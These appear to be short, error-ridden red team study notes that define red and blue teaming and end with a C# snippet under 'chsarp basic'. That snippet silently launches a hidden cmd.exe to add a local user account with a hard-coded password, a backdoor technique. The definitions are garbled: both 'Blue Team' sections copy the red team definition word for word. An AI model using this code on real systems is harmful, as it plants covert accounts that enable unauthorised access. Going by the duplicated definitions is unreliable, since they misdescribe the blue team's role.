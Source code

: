 # Introduction To Read Team Operation

## Defination

### Red Team

 `Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment 

`Goal` :make blue team better , measure and train  blue team gave better detection and response 

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or  TTP

### Blue Team

`Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment

`Goal` :make blue team better , measure and train blue team gave better detection and response

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or TTP

### Blue Team

`Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment

`Goal` :make blue team better , measure and train blue team gave better detection and response

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or TTP



#### chsarp basic

```csha
System.Diagnostics.Process process = new System.Diagnostics.Process();
System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
startInfo.FileName = "cmd.exe";
startInfo.Arguments = "/C net user /add nooranetred Aa123456";
process.StartInfo = startInfo;
process.Start();
```



